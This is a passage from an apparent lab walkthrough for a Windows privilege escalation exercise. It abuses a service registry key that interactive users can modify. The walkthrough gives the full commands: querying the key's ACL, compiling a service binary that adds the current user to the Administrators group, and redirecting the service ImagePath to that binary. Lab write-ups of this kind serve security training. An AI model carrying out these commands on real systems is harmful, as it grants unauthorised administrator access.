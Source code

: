 - List them :

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Services
```

- search for a service has `NT AUTHORITY\INTERACTIVE allow FullControl` :

```cmd
Get-Acl HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl
```

![image](/assets/images/windowsprivescarena/20220425043012.png)

- use the code [here](https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c)
- add what ever code you want to execute for example add current user to the administrator group

```cmd
cmd.exe /k net localgroup administrators user /add
```

- cross compile it :

```powershell
i686-w64-mingw32-gcc windows_service.c -o fake.exe
```

- send it to the windows then :

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\fake.exe /f
```

![image](/assets/images/windowsprivescarena/20220425050400.png)
